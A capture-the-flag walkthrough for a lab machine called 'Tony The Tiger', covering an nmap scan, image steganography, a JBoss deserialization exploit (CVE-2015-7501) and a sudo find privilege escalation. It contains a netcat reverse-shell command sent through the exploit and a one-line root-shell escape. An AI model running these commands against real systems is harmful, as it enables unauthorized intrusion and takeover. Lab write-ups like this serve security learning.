






# Tony The Tiger

## Reconnaissance

Ip addr : 10.10.214.90

## Scanning & Enumeration

* Nmap Scan

```shell
nmap -A -T4 -oN nmap/all_port 10.10.214.90
```

the scan result can be found [here](nmap/all_port)

We have the following open ports and services running :

| port number | service | version |
| --- | ---| --- |
| 22 | ssh | OpenSSH 6.6.1p1(Ubuntu) |
| 80 | http | Apache httpd 2.4.7 ((Ubuntu)) |
| 1090 | java-rmi | Java RMI |
| 1091 | java-rmi | Java RMI |
| 1098 | java-rmi | Java RMI |
| 1099 | java-object |Java Object Serialization |
| 4446 | java-object |Java Object Serialization |
| 5500 | hotline ? |  |
| 8009 | ajp13 | Apache Jserv (Protocol v1.3) |
| 8080 | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 8083 | http |  JBoss service httpd |

* Some Stenography

We are invinted to read tony **blog** to find a flag.
After reading the first post we found some hint about hidden data in image posted in the blog.

So we start doing  somme stego on image on the website, and  we got our flag.

by reading the post 2 source file with vim.

* [CVE-2015-7501](https://www.cvedetails.com/cve/CVE-2015-7501/)

The creator of the room , give us a [exploit](assets/exploit/jboss/exploit.py) for this vulnerability to use against ours target.

## Exploitation

* exploiting CVE 2015-7501

this exploit allow us to run command on our target so we run

```shell
python exploit.py 10.10.214.90:8080  'nc -e /bin/sh $RHOST $RPORT'
```

and get a user shell


* Enumarating the machine
  
some some note files. [here]
afters reading theme find the [credentials] of the user jboss


### Privilege Escalion

* sudo -l
  

we can run the find command with root privilege without password.

* Time to get root
  
using [GTFObin](https://gtfobins.github.io/gtfobins/find/) this is to much easy to get.

```shell
sudo find . -exec /bin/sh \; -quit
```

and root here :


* Get The root flag

at /root/root.txt we found a base64 encode of the root flag
decode it with <https://www.base64decode.org/> and crack the md5 result with <https://crackstation.net/>